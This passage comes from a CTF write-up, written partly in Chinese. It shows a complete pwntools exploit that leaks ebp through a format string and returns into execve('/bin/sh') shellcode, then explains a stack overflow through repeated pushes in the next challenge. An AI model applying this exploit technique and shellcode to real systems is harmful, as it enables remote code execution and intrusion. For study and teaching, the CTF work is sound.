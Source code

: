```python
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)
#r = process("./pwn2")
shellcode_byte = [ 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0xb0, 0x0b, 0x31, 0xc9, 0x31, 0xd2, 0xcd, 0x80 ]

shellcode = ''.join( chr(c) for c in shellcode_byte)


if __name__ == "__main__":

	echo_start = 0x08048540

	# leak ebp
	payload = "%p."*3
	payload = payload.ljust(20, "A")
	payload += p32(echo_start)
	r.sendline(payload)
	
	# calculate buffer address
	resp = r.recv(1024).split(".")[2]
	ret_addr = int(resp, 16) - 0x30 + 28

	# return to shellcode
	payload = "A"*20
	payload += p32(ret_addr)
	payload += "\x90"*10 + shellcode
	r.sendline(payload)
	r.interactive()

```


## PWN3D3
32 bit ELF, 一樣沒開 DEP  

這是一個簡單的模擬 stack 的程式  
功能有 push, pop, show, exit  
push 的話會要你先輸入一個 integer  
之後程式會把這個 integer 放在 stack 上面  
可以透過 show 功能去查看 stack 目前長什麼樣子  
pop 的話會把 stack 上面的一個數字 pop 出來  
exit 則是離開程式

透過一些 fuzzing  
我們可以發現當 stack 上面沒東西的時候  
利用 pop 功能可以 leak 出一些 address，包括 ebp  
因此我們可以利用這個功能來計算當前 stack 的位置以及我們 input buffer 的 address  
至於 push 功能，我們會發現說如果我們一直 push 東西進 stack 的話  
最後會發生 stack overflow, 覆蓋到 return address  
加上沒開 DEP 的關係，因此思路跟 PWN3D2 很像  
先利用 pop 功能 leak 出 ebp 並算出 buffer 的 address  
之後利用 push 功能觸發 buffer overflow 並 return to shellcode 拿 shell  
